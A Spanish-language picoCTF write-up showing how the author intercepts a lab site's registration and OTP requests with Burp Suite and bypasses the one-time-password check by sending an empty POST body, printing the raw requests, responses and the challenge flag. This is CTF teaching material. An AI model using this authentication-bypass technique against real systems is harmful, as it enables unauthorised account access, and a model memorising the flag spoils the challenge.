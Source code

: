 # Descripcion
Try [here](http://titan.picoctf.net:50156/) to find the flag

## Hints
- Try using burpsuite to intercept request to capture the flag.
- Try mangling the request, maybe their server-side code doesn't handle malformed requests very well.

# Solucion

Lo primero que hacemos es analizar la pagina y lo que esta trantando de hacer. Lo primero que encontramos es un formulario de registro. Esto es interesante por que podemos mandar una peticion, entonces, llenamos los datos, interceptamos y mandamos la peticion de `registro` 

```
POST / HTTP/1.1
Host: titan.picoctf.net:59370
Content-Length: 213
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Origin: http://titan.picoctf.net:59370
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:59370/
Accept-Encoding: gzip, deflate, br
Cookie: session=.eJw1jEEOwiAQRe_C2oUFOgWX9iDNQIfUSKGBNqYx3t0h0eW8-e-9hX_sp7iJOxZPMScUF-FrCdOen5T4oZA0AMi5A-O8Cdoqh51CJXsmAayZzbXXjr1wxDglXIm18XRUxoUC87xvTAawcrjyuWGtr1xmZp1Uum9oyYmmdKws_TEMxrb5Uan8ohR9y_qW_XwBmS44Ng.Z-7-5w.THNKr530SNTtrslK_lj4kwWnKjw
Connection: keep-alive

csrf_token=IjNhZTQ2NjYyZDE2OGJjOGY0OTNiYTEzYTMyNTE2OGY2OThkODA1NGIi.Z-8BTA.YDEQ0Yy9AuDM_pMXe35u-4j_q70&full_name=CyberChef&username=elcyberchef&phone_number=1234567890&city=Barcelona&password=12345&submit=Register
```


Aqui destacamos lo que encontramos, veos que esta pagina usa un token de csrf para validar tambien la sesion. 


Una vez que le mandamos los datos nos pide ingresar una `OTP` (One-time-password), Pero, no obtuvimos esta contraseña?? . 

Interceptamos la peticion con burpuiste e intentamos mandar distintos datos.

Intentamos mandando un numero: 

peticion: 
```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:50187
Content-Length: 9
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Origin: http://titan.picoctf.net:50187
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:50187/dashboard
Accept-Encoding: gzip, deflate, br
Cookie: session=.eJw1jM0OwiAQBt-Fs4e2_Eg92gchCyypkUIDNKYxvrtLosed_WbezD3ayW7sDsVhzAnYhblagmn5iYkeHFAopSY_Km2dDmLmFkYOfJJEgpq114MUlrxwxGgSbEjaclosy4qBeG57D3Ep5EDnDrW-cvHExokL2dGaE5p0bCT9sbrquc-PiuUXxeh61vXs5wuVyzgr.Z-8F7w.brd8mgPeU7RgD1kPLSzXR9OqG6E
Connection: keep-alive

otp=12345

````

response: 
```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
Date: Thu, 03 Apr 2025 22:05:37 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 11
Vary: Cookie
Connection: close

Invalid OTP
```

- Probamos con texto:

```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:50187
Content-Length: 9
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Origin: http://titan.picoctf.net:50187
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:50187/dashboard
Accept-Encoding: gzip, deflate, br
Cookie: session=.eJw1jM0OwiAQBt-Fs4e2_Eg92gchCyypkUIDNKYxvrtLosed_WbezD3ayW7sDsVhzAnYhblagmn5iYkeHFAopSY_Km2dDmLmFkYOfJJEgpq114MUlrxwxGgSbEjaclosy4qBeG57D3Ep5EDnDrW-cvHExokL2dGaE5p0bCT9sbrquc-PiuUXxeh61vXs5wuVyzgr.Z-8F7w.brd8mgPeU7RgD1kPLSzXR9OqG6E
Connection: keep-alive

otp=aaaaa
```

response:
```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
Date: Thu, 03 Apr 2025 22:06:19 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 11
Vary: Cookie
Connection: close

Invalid OTP
```

Vemos que hay una respuesta de error para casos cuando el numero que se manda no coinicide, y verifica que la entrada del dato es numerico. ¿Que sucede si le mandamos un null?

Peticion
```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:50187
Content-Length: 0
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Origin: http://titan.picoctf.net:50187
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:50187/dashboard
Accept-Encoding: gzip, deflate, br
Cookie: session=.eJw1jM0OwiAQBt-Fs4e2_Eg92gchCyypkUIDNKYxvrtLosed_WbezD3ayW7sDsVhzAnYhblagmn5iYkeHFAopSY_Km2dDmLmFkYOfJJEgpq114MUlrxwxGgSbEjaclosy4qBeG57D3Ep5EDnDrW-cvHExokL2dGaE5p0bCT9sbrquc-PiuUXxeh61vXs5wuVyzgr.Z-8F7w.brd8mgPeU7RgD1kPLSzXR9OqG6E
Connection: keep-alive

```

Response:
```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
Date: Thu, 03 Apr 2025 22:08:17 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 112
Vary: Cookie
Connection: close

Welcome, elcyberchef you sucessfully bypassed the OTP request. 
Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_3e3ddc76}
```


## Referencias
